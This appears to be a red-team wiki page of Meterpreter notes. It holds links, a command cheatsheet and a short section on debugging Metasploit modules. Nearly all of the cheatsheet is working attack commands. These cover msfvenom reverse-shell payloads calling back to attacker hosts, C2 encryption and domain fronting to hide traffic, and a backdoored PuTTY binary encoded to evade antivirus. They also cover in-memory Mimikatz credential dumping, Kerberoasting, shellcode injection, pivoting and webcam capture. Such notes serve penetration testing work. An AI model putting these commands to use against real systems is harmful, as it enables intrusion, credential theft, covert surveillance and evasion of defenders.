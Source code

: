 # Meterpreter

* [https://buffered.io/posts/staged-vs-stageless-handlers/](https://buffered.io/posts/staged-vs-stageless-handlers/)
* [https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/)
* [https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation](https://www.darkoperator.com/blog/2015/6/14/tip-meterpreter-ssl-certificate-validation)
* [https://xakep.ru/2020/07/03/metasploit-guide/](https://xakep.ru/2020/07/03/metasploit-guide/)
* [https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/](https://diablohorn.com/2013/02/21/we-bypassed-antivirus-how-about-idsips/)
* [https://redops.at/en/blog/meterpreter-vs-modern-edrs-in-2023](https://redops.at/en/blog/meterpreter-vs-modern-edrs-in-2023)




## Cheatsheet

Quick handler launch:

```
msf > handler -H eth0 -P 443 -p windows/x64/meterpreter/reverse_https [-e x64/xor] [-x]
```

Bind RC4 payload & handler through SOCKS proxy:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 RHOST=10.10.13.37 LPORT=443 RC4PASSWORD='Passw0rd!' -f exe -o rev.exe
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/bind_tcp_rc4
msf exploit(multi/handler) > set RHOST 192.168.1.11
msf exploit(multi/handler) > set LPORT 443
msf exploit(multi/handler) > set RC4PASSWORD Passw0rd!
msf exploit(multi/handler) > set PROXIES socks5:127.0.0.1:1080
msf exploit(multi/handler) > run
```

Generate a custom SSL certificate for encrypting C2 communications:

```
$ openssl req -batch -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout cert.key -out cert.crt
$ cat cert.key cert.crt > cert.pem
$ msfvenom -p ... HandlerSSLCert=./cert.pem StagerVerifySSLCert=true ...
msf exploit(multi/handler) > set HandlerSSLCert /home/snovvcrash/cert.pem
msf exploit(multi/handler) > set StagerVerifySSLCert true
```

Automation (about `exploit` flags [here](https://github.com/rapid7/metasploit-framework/blob/4049c41ac1b6f12566b055dc5442192072ea5d78/lib/msf/ui/console/command_dispatcher/exploit.rb#L17-L27)):

{% code title="auto.rc" %}
```
// sudo msfconsole -qr auto.rc
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_winhttps
set LHOST 10.10.13.37
set LPORT 443
set EXITFUNC thread
set StageEncoder x64/zutto_dekiru
set EnableStageEncoding true
set HandlerSSLCert /home/snovvcrash/cert.pem
set StagerVerifySSLCert true
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -jz
```
{% endcode %}

Start SOCKS server (default is SOCKS5):

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

Handle connections with **domain fronting**:

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=legitimate.com LPORT=443 HttpHostHeader=cdn.provider.net -f exe -o https.exe
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST legitimate.com
msf exploit(multi/handler) > set OverrideLHOST legitimate.com
msf exploit(multi/handler) > set OverrideRequestHost true
msf exploit(multi/handler) > set HttpHostHeader cdn.provider.net
msf exploit(multi/handler) > run
```

Migrate to a different architecture:

```
msf > use post/windows/manage/archmigrate
msf post(windows/manage/archmigrate) > set SESSION 1
msf post(windows/manage/archmigrate) > run
```

Switch to the next [transport](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Transport-Control) killing current session:

```
meterpreter > transport add -t reverse_tcp -l 10.10.13.37 -p 9002
meterpreter > transport list
msf > handler -H eth0 -P 9002 -p windows/x64/meterpreter/reverse_tcp
meterpreter > transport next
```

Reverse local port `3389` (on Victim, `192.168.1.11`) to local port `43389` (on Attacker):

```
meterpreter > portfwd add -l 43389 -p 3389 -r 192.168.1.11
[*] Local TCP relay created: :43389 <-> 192.168.1.11:3389
$ xfreerdp /u:administrator /p:'Passw0rd!' /v:127.0.0.1:43389
```

Routing:

```
meterpreter > run autoroute -s 192.168.10.0/24
meterpreter > run autoroute -p
Or
msf5 > route add 192.168.10.0/24 1
msf5 > route
```

Execute binary from memory:

```
meterpreter > execute -cimH -d calc.exe -f /home/snovvcrash/www/mimikatz.exe -a '"sekurlsa::logonPasswords full" "exit"'
```

[Execute](https://github.com/b4rtik/metasploit-execute-assembly) .NET assembly from memory:

```
msf > use post/windows/manage/execute_dotnet_assembly
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/Rubues.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS "kerberoast /usetgtdeleg /format:hashcat"
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > run
```

Inject shellcode:

```
msf > use post/windows/manage/shellcode_inject
msf post(windows/manage/shellcode_inject) > set SHELLCODE /home/snovvcrash/www/shellcode.bin
msf post(windows/manage/shellcode_inject) > set SESSION 1
msf post(windows/manage/shellcode_inject) > run
```

Backdoored legit executable with delayed Stdapi loading:

```
$ wget https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe
$ msfvenom -p windows/x64/meterpreter_reverse_http LHOST=eth0 LPORT=8080 EXITFUNC=thread -e x64/xor_dynamic -i 10 -k -x putty.exe -f exe -o evilputty.exe
$ sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter_reverse_http; set LHOST eth0; set LPORT 8080; set AutoLoadStdapi false; set EXITFUNC thread; run'
meterpreter > use unhook
meterpreter > load stdapi
```

Quicky opsec traffic build template:

```bash
sudo certbot certonly --standalone -d $DOMAIN --register-unsafely-without-email --agree-tos --key-type rsa
sudo cat /etc/letsencrypt/live/$DOMAIN/{privkey.pem,cert.pem} > /tmp/cert.pem

msfvenom -p windows/x64/meterpreter_reverse_https AutoLoadStdapi='false' AutoSystemInfo='false' HandlerSSLCert='/tmp/cert.pem' HttpCookie='...' HttpReferer='https://www.microsoft.com/en-us/' HttpServerName='nginx' HttpUnknownRequestResponse='...' HttpUserAgent='Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko' StagerVerifySSLCert='true' LHOST='...' LPORT='443' LURI='...' -f raw -o /tmp/met.bin
```

Get web camera capture:

```
meterpreter > webcam_list
meterpreter > webcam_snap [-i <CAMERA_ID>]
meterpreter > webcam_stream
```




## Debug

* [https://github.com/deivid-rodriguez/pry-byebug](https://github.com/deivid-rodriguez/pry-byebug)

{% embed url="https://youtu.be/QzP5nUEhZeg?t=2190" %}

```
$ gem install pry-byebug
$ vi ~/.pry-byebug
```

{% code title="pry-byebug" %}
```ruby
if defined?(PryByebug)
  Pry.commands.alias_command 'c', 'continue'
  Pry.commands.alias_command 's', 'step'
  Pry.commands.alias_command 'n', 'next'
  Pry.commands.alias_command 'f', 'finish'
end

 # Hit Enter to repeat last command
Pry::Commands.command /^$/, "repeat last command" do
  _pry_.run_command Pry.history.to_a.last
end
```
{% endcode %}

```
$ cp -r /usr/share/metasploit-framework/ /opt
$ vi /opt/metasploit-framework/msfconsole
...add "require 'pry-byebug'"...
$ mkdir -p ~/.msf4/modules/exploits/linux/http/
$ cp /usr/share/metasploit-framework/modules/exploits/linux/http/packageup.rb ~/.msf4/modules/exploits/linux/http/p.rb
$ vi ~/.msf4/modules/exploits/linux/http/p.rb
...add "binding.pry"...
```
